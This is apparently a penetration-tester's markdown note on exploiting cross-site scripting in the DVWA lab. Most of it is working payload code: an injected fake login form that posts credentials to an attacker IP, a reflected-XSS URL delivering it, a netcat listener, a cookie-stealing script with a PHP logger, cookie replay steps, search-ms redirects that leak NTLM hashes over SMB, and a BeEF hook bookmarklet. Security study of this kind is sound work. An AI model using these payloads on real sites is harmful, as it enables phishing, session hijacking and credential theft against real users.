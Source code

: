 # Manual

TODO: Demonstrate how XSS can be leveraged by an attacker.

### Phishing via HTML Injection (Account Takeover)

```html
<h3>Login</h3>
<form action=http://<attacker_IP>
Username:<br><input type="username" name="username"></br>
Password:<br><input type="password" name="password"></br>
<br><input type="submit" value="Logon"></br>
```

```html
http://dvwa.local/dvwa/vulnerabilities/xss_r/?name=<h3>Login</h3><form action=http://<attacker_IP> Username:<br><input type="username" name="username"></br> Password:<br><input type="password" name="password"></br> <br><input type="submit" value="Logon"></br>
```

```
$ sudo nc -lnvp 80
```

### Phishing via JavaScript (Account Takeover)

```js
<script type="text/javascript">
document.location='http[s]//<IP>/cookies.php?cookie='+document.cookie;
</script>
```

```php
<?php
header('Location: http://dvwa.local/dvwa/');

$cookie = $_GET['cookie'];
$fp = fopen('cookies.txt', 'a+');
fwrite($fp, 'Cookie:' . $cookie . "\r\n");
fclose($fp);
?>
```

Open in debug console in any web browser. You can use an extension **Cookie Editor** if you prefer.

```
document.cookie = "<cookie_session>"
```

### Phishing via SMB Relay

TODO: refer to the link to use responder to grab ntlm hashes on a windows target

```javascript
<script>window.location.href = "search-ms://query=<anything>&subquery=\\\\<attacker_IP>\\<anything>.search-ms"</script>

<script>window.location.href = "search-ms://query=<anything>&crumb=location:\\\\<attacker_IP>\\<anything>"</script>

<script>window.location.href = "wpa:////<attacker_IP>/<anything>"</script>
```

TODO: Convince the user to click a link or button to add a bookmark using bookmarklet via XSS for persistence

```
javascript: (function () { var url = 'http://0.0.0.0:3000/hook.js';if (typeof beef == 'undefined') { var bf = document.createElement('script'); bf.type = 'text/javascript'; bf.src = url; document.body.appendChild(bf);}})();
```

---
## References

- [[03 - Phishing|Responder: Phishing Scenario]]

- [Computer Security Student (CSS): Reflected Cross Site Scripting Injection #1, Man-In-The-Middle Attack](http://www.computersecuritystudent.com/SECURITY_TOOLS/MUTILLIDAE/MUTILLIDAE_2511/lesson13/index.html)

- [Abricto Security: XSS to NTLM Leak using MSQuery](https://abrictosecurity.com/from-cross-site-scripting-to-ntlm-leak-using-msquery/)

- [0xdf: Getting Creds via NTLMv2](https://0xdf.gitlab.io/2019/01/13/getting-net-ntlm-hases-from-windows.html)